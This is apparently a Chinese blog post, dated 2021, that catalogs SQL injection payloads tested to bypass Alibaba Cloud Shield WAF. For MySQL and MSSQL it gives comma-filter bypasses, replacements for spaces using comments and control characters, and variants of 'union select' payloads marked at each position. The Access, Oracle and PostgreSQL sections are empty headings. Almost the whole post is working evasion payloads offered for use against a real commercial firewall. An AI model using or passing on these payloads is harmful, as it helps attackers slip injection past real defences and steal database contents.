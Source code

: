 ```yaml
---
layout:     post
title:      阿里云盾waf绕过
subtitle:   测试通过的数据库记录
date:       2021-03-23
author:     BY kexiaohei
header-img: img/aly.jpg
catalog: true
tags:
    - waf
    - 阿里云
---
```

**数据仅代表2020-03月测试结果**
# 1、mysql数据库

# 1.1查询特性

### 1.1.1 绕过逗号过滤

```
UNION SELECT 1,2,3,4;  
-->UNION SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT 4)d;
```

### 1.1.2 空格替代

| 字符      | 代替                      |
| --------- | ------------------------- |
| %20       | \#bypass%0d%0a            |
| %20       | /*!*/                     |
| %20       | -- bypass%0d%0a           |
| %20       | 09 0A 0B 0C 0D .......... |
| %20       | 以上几项任意组合          |
| 1%20union | 1.1union                  |
| 1%20union | 1’union                   |
| 1%20union | 1e1union                  |
| 1%20union | {``1} union               |

## 1.2 waf绕过

select id,contents,time from news where news_id=1①union②select③1,2,db_name()④from⑤admin

①可利用其他控制字符替换空格：%09,%0a,%0b,%0c,%0d,%20,%a0	可利用注释符号：/**/、#test%0d%0a、 --+a	可利用数学运算以及数据类型：news_id=1.1，news_id=1E0，news_id=\N

②可利用其他控制字符替换空格：%09,%0a,%0b,%0c,%0d,%20,%a0	可利用注释符号：/**/、 #test%0d%0a、 --+a	可利用括号：union(select 1,2)

③可利用其他控制字符替换空格：%09,%0a,%0b,%0c,%0d,%20,%a0	可利用注释符号：/**/、 #test%0d%0a、 --+a	可利用其他符号：+ 、- 、 ~ 、!、@

④可利用其他控制字符替换空格： %09,%0a,%0b,%0c,%0d,%20,%a0	可利用注释符号： /**/、#test%0d%0a、 --+a	

```
可利用数学运算以及数据类型：

union select user(),2.0from admin

union select user(),8e0from admin

union select user(),\Nfrom admin
```

⑤可利用其他控制字符替换空格： %09,%0a,%0b,%0c,%0d,%20,%a0	可利用注释符号： /**/、#test%0d%0a、--+a	

```
'号：union select 1 schema_name from`information_schema`.SCHEMATA limit 0,1)

内联注释：union select 1,(select(schema_name)from/*!12345information_schema.SCHEMATA*/ limit 0,1)
```



# 2、access数据库



# 3、mssql数据库	& 数据库特性

| **数据库名称** | **可替换空白字符**          |
| -------------- | --------------------------- |
| SQLite         | %0A %0D %0C %09 %20         |
| MySQL          | %09 %0A %0B %0C %0D %A0 %20 |
| PostgreSQL     | %0A %0D %0C %09 %20         |
| Oracle         | %00 %0A %0D %0C %09 %20     |
| MSSQL          | %00 %01 %02 %03 %04 …… %20  |

## 3.1 waf绕过

select id,contents,time from news where news_id=1①union②select③1,2,db_name()④from⑤admin

①可利用其他控制字符替换空格：%01~%0F、%11~%1F	可利用注释符号：/**/	可利用数学运算以及数据类型：news_id=1.1，news_id=1e0，news_id=1-1

②可利用其他控制字符替换空格：%01~%0F、%11~%1F	可利用注释符号：/**/	可利用冒号：union:select

③可利用其他控制字符替换空格：%01~%0F、%11~%1F	可利用注释符号：/**/	可利用其他符号：+ 、- 、 ~ 、:、.

④可利用其他控制字符替换空格：%01~%0F、%11~%1F	可利用注释符号：/**/	可利用其他字符：%80~%FF

⑤可利用其他控制字符替换空格：%01~%0F、%11~%1F	可利用注释符号：/**/	可利用其他字符：:、.、%80~%FF

# 4、oracle数据库



# 5、postgresql数据库


